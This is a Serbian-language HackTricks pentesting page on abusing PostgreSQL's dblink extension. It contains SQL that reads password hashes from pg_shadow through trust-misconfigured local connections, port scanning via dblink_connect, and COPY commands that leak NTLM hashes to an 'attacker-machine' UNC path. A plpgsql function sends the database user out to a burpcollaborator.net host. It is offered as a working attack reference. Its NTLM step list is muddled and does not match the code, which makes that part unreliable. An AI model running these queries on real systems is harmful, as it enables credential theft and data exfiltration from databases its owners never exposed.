 # Network - Privesc, Port Scanner and NTLM chanllenge response disclosure

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE PRETPLATE**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

**Pronađite** [**više informacija o ovim napadima u originalnom radu**](http://www.leidecker.info/pgshell/Having\_Fun\_With\_PostgreSQL.txt).

Od **PostgreSQL 9.1**, instalacija dodatnih modula je jednostavna. [Registrovani ekstenzije poput `dblink`](https://www.postgresql.org/docs/current/contrib.html) mogu se instalirati sa [`CREATE EXTENSION`](https://www.postgresql.org/docs/current/sql-createextension.html):

```sql
CREATE EXTENSION dblink;
```

Jednom kada imate učitan dblink, možete izvesti neke zanimljive trikove:

### Eskalacija privilegija

Datoteka `pg_hba.conf` može biti loše konfigurisana, **omogućavajući konekcije** sa **localhostom kao bilo koji korisnik**, bez potrebe za poznavanjem lozinke. Ova datoteka se obično nalazi u `/etc/postgresql/12/main/pg_hba.conf`, a loša konfiguracija izgleda ovako:

```
local    all    all    trust
```

_Napomena da se ova konfiguracija često koristi za izmenu lozinke korisnika baze podataka kada je administrator zaboravi, pa je ponekad možete pronaći._\
_Napomena takođe da je datoteka pg\_hba.conf čitljiva samo od strane korisnika i grupe postgres, i da je moguće samo od strane korisnika postgres._

Ovaj slučaj je **koristan ako** već imate **shell** unutar žrtve, jer će vam omogućiti da se povežete sa postgresql bazom podataka.

Još jedna moguća konfiguracija koja može biti pogrešna je sledeća:

```
host    all     all     127.0.0.1/32    trust
```

Kako će omogućiti svima sa lokalnog računara da se povežu sa bazom podataka kao bilo koji korisnik.\
U ovom slučaju, ako je funkcija **`dblink`** **aktivna**, možete **povećati privilegije** tako što ćete se povezati sa bazom podataka putem već uspostavljene veze i pristupiti podacima do kojih ne biste trebali imati pristup:

```sql
SELECT * FROM dblink('host=127.0.0.1
user=postgres
dbname=postgres',
'SELECT datname FROM pg_database')
RETURNS (result TEXT);

SELECT * FROM dblink('host=127.0.0.1
user=postgres
dbname=postgres',
'select usename, passwd from pg_shadow')
RETURNS (result1 TEXT, result2 TEXT);
```

### Skeniranje portova

Zloupotrebom `dblink_connect` funkcije možete takođe **pretraživati otvorene portove**. Ako ta **funkcija ne radi, trebali biste pokušati koristiti `dblink_connect_u()`** jer dokumentacija kaže da je `dblink_connect_u()` identična `dblink_connect()` funkciji, osim što će dozvoliti ne-superkorisnicima da se povežu koristeći bilo koji metod autentifikacije.

```sql
SELECT * FROM dblink_connect('host=216.58.212.238
port=443
user=name
password=secret
dbname=abc
connect_timeout=10');
//Different response
// Port closed
RROR:  could not establish connection
DETAIL:  could not connect to server: Connection refused
Is the server running on host "127.0.0.1" and accepting
TCP/IP connections on port 4444?

// Port Filtered/Timeout
ERROR:  could not establish connection
DETAIL:  timeout expired

// Accessing HTTP server
ERROR:  could not establish connection
DETAIL:  timeout expired

// Accessing HTTPS server
ERROR:  could not establish connection
DETAIL:  received invalid response to SSL negotiation:
```

Imajte na umu da **pre** nego što budete u mogućnosti da koristite `dblink_connect` ili `dblink_connect_u`, možda ćete morati da izvršite:

```
CREATE extension dblink;
```

### Otkrivanje UNC putanje - NTLM heš otkrivanje

Kada se koristi NTLM autentifikacija, moguće je otkriti NTLM heš lozinke korisnika putem UNC (Universal Naming Convention) putanje. UNC putanja je način za identifikaciju i pristup deljenim resursima na mreži.

Da biste otkrili NTLM heš lozinke, možete koristiti sledeći postupak:

1. Skenirajte mrežu kako biste pronašli otvorene portove na ciljnom sistemu.
2. Identifikujte otvorene portove koji podržavaju NTLM autentifikaciju.
3. Koristite alat poput `enum4linux` ili `smbclient` za pristupanje ciljnom sistemu putem UNC putanje.
4. Kada pristupite ciljnom sistemu, možete dobiti NTLM heš lozinke korisnika iz odgovora servera.

Ova tehnika može biti korisna za otkrivanje NTLM heš lozinke korisnika i dalje iskorišćavanje ranjivosti sistema. Međutim, važno je napomenuti da je ova tehnika ilegalna i može dovesti do pravnih posledica.

```sql
-- can be used to leak hashes to Responder/equivalent
CREATE TABLE test();
COPY test FROM E'\\\\attacker-machine\\footestbar.txt';
```

```sql
-- to extract the value of user and send it to Burp Collaborator
CREATE TABLE test(retval text);
CREATE OR REPLACE FUNCTION testfunc() RETURNS VOID AS $$
DECLARE sqlstring TEXT;
DECLARE userval TEXT;
BEGIN
SELECT INTO userval (SELECT user);
sqlstring := E'COPY test(retval) FROM E\'\\\\\\\\'||userval||E'.xxxx.burpcollaborator.net\\\\test.txt\'';
EXECUTE sqlstring;
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;
SELECT testfunc();
```

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE PRETPLATE**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

